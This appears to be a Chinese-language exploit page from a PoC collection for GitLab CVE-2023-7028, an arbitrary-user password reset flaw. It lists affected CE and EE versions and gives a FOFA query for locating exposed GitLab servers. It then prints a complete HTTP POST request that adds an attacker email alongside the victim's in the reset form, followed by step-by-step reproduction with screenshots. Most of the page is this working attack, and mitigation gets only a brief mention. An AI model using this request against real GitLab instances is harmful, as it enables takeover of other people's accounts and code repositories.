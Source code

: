 ## GitLab任意用户密码重置漏洞(CVE-2023-7028)

2024年1月11日，Gitlab 官方披露 CVE-2023-7028，GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置 Gitlab 仅对可信地址开放。

1、需获取系统已有用户注册邮箱地址

2、满足影响版本

## 影响版本
```
16.1 <=GitLab CE<16.1.6
16.2 <=GitLab CE<16.2.8
16.3 <=GitLab CE<16.3.6
16.4 <=GitLab CE<16.4.4
16.5 <=GitLab CE<16.5.6
16.6 <=GitLab CE<16.6.4
16.7 <=GitLab CE<16.7.2
16.1 <=GitLab EE<16.1.6
16.2 <=GitLab EE<16.2.8
16.3 <=GitLab EE<16.3.6
16.4 <=GitLab EE<16.4.4
16.5 <=GitLab EE<16.5.6
16.6 <=GitLab EE<16.6.4
16.7 <=GitLab EE<16.7.2
```

## fofa
```
app="GitLab"
```

## poc
```
POST /users/password/ HTTP/1.1
Host: g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Origin: https://git.ryzoweba.com
Connection: keep-alive
Cookie: _gitlab_session=78331028df93ce92682f77ac91945004; preferred_language=en
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

authenticity_token=Ok6w7Wt0FwKeOCci9ucskZWrjRDDV0kYkwlSOIrGQmmQ2fk5k3vsH-8vM5UIiGn-0tpJ9D78SUb-9AT1TZ8VfA&user%5Bemail%5D=目标邮箱&user[email][]=攻击者邮箱
```

## 漏洞复现
访问找回密码页面：/users/password/new
![2af3cf985729d3808db6273dcc07b84b](../../images/f48c3792-5d70-4cea-a2f5-1ac3a1e3af6e.png)

填写被找回邮箱地址，然后点击抓包
![7d63bb3712a59358211cd86b02d52674](../../images/5fb2529f-50a5-44ce-923a-ad6f7b1eb631.png)

修改请求包为：user[email][]=目标邮箱地址&user[email][]=攻击者邮箱地址
![f7080e955aa0be982d53c73f2d817696](../../images/71fb4d67-891b-4388-a059-7b609605ff2b.png)

![3dd9cf887b37a83c2d1e7290f2e1b78f](../../images/ba695d81-ae4d-4fc8-b35b-27074a5973d3.png)


## 漏洞来源
- https://mp.weixin.qq.com/s/fFjOhcjtYh-hYsdYDsCA1Q
- https://mp.weixin.qq.com/s/xtCIo0ybgK2obPVZtKNQEQ
